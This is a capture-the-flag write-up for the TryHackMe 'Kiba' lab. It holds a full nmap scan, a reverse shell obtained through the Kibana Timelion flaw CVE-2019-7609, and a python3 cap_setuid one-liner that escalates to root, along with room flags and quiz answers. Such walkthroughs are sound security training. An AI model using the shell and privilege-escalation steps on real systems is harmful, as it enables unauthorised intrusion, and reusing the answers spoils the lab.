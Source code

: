 # kiba

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

[kiba](https://tryhackme.com/room/kiba)

## Chủ đề của

- Network Enumeration
- CVE-2019-7609 - Kibana Timelion < 5.6.15 and 6.6.1
- Capabilities

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## flags

Are you able to complete the challenge?
The machine may take up to 7 minutes to boot and configure

```
bibo318@parrot:~/CTFs/tryhackme/kiba$ sudo nmap -A -sC -sV -sS -O -p- -Pn 10.10.254.89
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 18:16 CEST
Nmap scan report for 10.10.254.89
Host is up (0.038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:10 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest:
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:09 GMT
|   HTTPOptions:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 04 Oct 2020 16:20:09 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=10/4%Time=5F79F58D%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2004\x20Oct\x202020\x2016:20:09\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2004\x20Oct\x202020\x2016:20:09\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2004\x20Oct\x202020\x2016:20:10\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=22%CT=1%CU=37779%PV=Y%DS=2%DC=T%G=Y%TM=5F79F59
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   36.44 ms 10.8.0.1
2   36.70 ms 10.10.254.89

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.07 seconds
```

`Version: 6.5.4`

- [CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

```
bibo318@parrot:~/CTFs/tryhackme/kiba$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.124.172] 44970
bash: cannot set terminal process group (958): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Mar 31  2020 .
drwxr-xr-x 22 root root 4096 Mar 31  2020 ..
drwxr-xr-x  6 kiba kiba 4096 Mar 31  2020 kiba
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home
cd /home
kiba@ubuntu:/home$ ls
ls
kiba
kiba@ubuntu:/home$ cd kiba
cd kiba
kiba@ubuntu:/home/kiba$ ls
ls
elasticsearch-6.5.4.deb
kibana
user.txt
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{V0N318*****1s_easy_pwn3d_k1bana_w1th_rce}
kiba@ubuntu:/home/kiba$
```

`THM{V0N318*****1s_easy_pwn3d_k1bana_w1th_rce12**123:))}`

```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:/home/kiba/kibana/bin$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<please/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
SHELL=/bin/bash script -q /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba/kibana/bin# cat /root/root.txt
cat /root/root.txt
THM{V0N318*****pr1v1lege_escalat1on_us1ng_capab1l1t1es}
root@ubuntu:/home/kiba/kibana/bin#
```

THM{V0N318*****pr1v1lege_escalat1on_us1ng_capab1l1t1es}

1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

![](2020-10-04_18-40.png)

`Prototype pollution`

2. What is the version of visualization dashboard installed in the server?

`6.5.4`

3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

`CVE-2019-7609`

1. Compromise the machine and locate user.txt
2. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

`No answer needed`

3. How would you recursively list all of these capabilities?

`getcap -r /`

4. Escalate privileges and obtain root.txt
